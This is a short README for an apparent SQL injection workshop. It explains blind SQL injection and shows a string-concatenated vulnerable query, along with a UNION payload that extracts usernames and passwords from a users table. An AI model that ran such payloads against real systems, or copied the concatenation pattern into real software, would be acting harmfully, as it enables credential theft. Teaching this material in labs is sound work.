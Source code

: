 # sql-injection-lab
In this workshop we will solve two blind SQL injeciton labs

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses does not contain any SQL query result. So a UNION attack wont work.
Instead, we can infer the results indirectly based on the application's behavior, such as changes in response times, error messages, or other observable behaviors.


``` sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

``` 
$sqlQuery = "SELECT a, b FROM products WHERE categories = + '" + $category + "'
```

``` sql
UNION SELECT username, password FROM users--'
```

``` sql
SELECT a, b FROM products WHERE categories = '' UNION SELECT username, password FROM users--'
```

